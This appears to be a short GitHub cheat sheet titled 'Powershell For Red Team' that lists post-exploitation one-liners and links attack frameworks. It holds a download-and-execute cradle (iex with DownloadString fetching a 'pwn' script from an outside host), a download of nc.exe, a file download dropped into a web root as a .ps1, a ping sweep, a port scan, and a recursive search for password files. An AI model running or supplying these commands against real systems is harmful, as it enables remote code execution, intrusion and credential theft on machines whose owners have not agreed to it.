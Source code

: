 **Powershell For Red Team**
===========================


**Tools**
--------
Source: <a href='http://www.powershellempire.com/' target='_blank'>powershellempire</a> 
Source: <a href='https://github.com/PowerShellMafia/PowerSploit' target='_blank'>PowerSploit</a> 

PowerShell for Pen-Tester Post-Exploitation
---------
can download and execute  with minimize the length with Invoke-Expression  the alias is "iex"
Invoke-Expression (iex) runs commands passed to it Net.WebCline acts as PowerShell Web browser

```bash
$ powershell.exe -nop -c “iex(new-object Net.WebClient).DownloadString(‘https://192.168.1.10/pwn’)”
```
You can download your file from your external Server and than save it at traget machine

```bash
$ powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://www.mydomain.cloud/test.txt','C:\inetpub\wwwroot\test.ps1')
```

**Conduct a ping sweep:**
```
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt 
```
